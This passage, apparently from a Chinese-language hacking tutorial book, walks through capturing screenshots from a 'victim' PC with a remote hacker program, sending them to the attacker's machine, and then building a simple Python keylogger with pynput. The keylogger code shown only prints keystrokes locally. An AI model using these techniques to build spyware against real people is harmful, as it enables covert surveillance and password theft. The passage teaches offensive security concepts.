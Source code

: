     图 7.6 – 受害者程序截取的屏幕截图

1.  如果你去受害者的 PC，你会看到有一个名为**screenshot.png**的文件保存在磁盘上。你可以使用我们之前学到的方法将该文件传输到黑客的 PC 上。只需在黑客程序中写下以下命令：

    **下载 screenshot.png**

    这将把屏幕截图移动到黑客的 PC 上。我截取了以下屏幕截图：

![图 7.7 – 在 Windows PC 上截取的屏幕截图](img/B14788_07_07.jpg)

图 7.7 – 在 Windows PC 上截取的屏幕截图

在这一部分中，我们学习了如何使用我们的黑客程序截取受害者 PC 的屏幕截图，并将文件传输到黑客的 PC。接下来的部分，我们将学习如何创建一个键盘记录器来追踪受害者的按键记录。

# 键盘记录器

在这一部分中，我们将构建一个简单的键盘记录器。键盘记录器是一种恶意软件程序，用于记录用户的按键记录。它是最常见的恶意软件类型之一。键盘记录器常用于窃取密码和其他敏感信息，如信用卡信息。键盘记录器通常设计得尽可能安静，这意味着它很难被发现。让我们尝试构建一个简单的键盘记录器。你需要安装一个名为**pynput**的模块来构建键盘记录器。这个模块允许你通过编程方式访问按键记录：

1.  要安装此模块，请使用以下命令：

    **pip install pynput**

    这将安装模块：

1.  一旦模块安装完成，我们可以从该模块导入**keyboard**：

    **from pynput import keyboard**

1.  接下来，我们将定义一个监听器，用于监听按键记录。这个监听器会根据不同的事件处理不同的情况。看看以下代码：

    with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:

    listener.join()

    之前的代码定义了两个函数，分别用于*按下*和*释放*按键。当按下一个键时，将调用**onPress**函数，而当释放一个键时，将调用**onRelease**函数。

1.  现在我们将定义这些函数。让我们看看这些函数：

    def onPress(key):

    print(str(key))

    def onRelease(key):

    if str(key) == 'Key.esc':

    return False

    我们定义了非常简单的函数。当按下键时，我们只需打印它，而当键被释放时，我们会检查按下了哪个键。如果按下的是*Esc*键，我们就退出程序，否则继续。这样，我们就有了退出条件，避免了程序卡住。如果我们没有定义这个条件，就无法退出程序，因为按下*Ctrl* + *C*会只是打印出信息，而不是退出。为了安全地退出这个函数，我们返回**False**值。让我们来看一下一个简单的执行过程：

    ![图 7.8 – 打印按下的键    ](img/B14788_07_08.jpg)
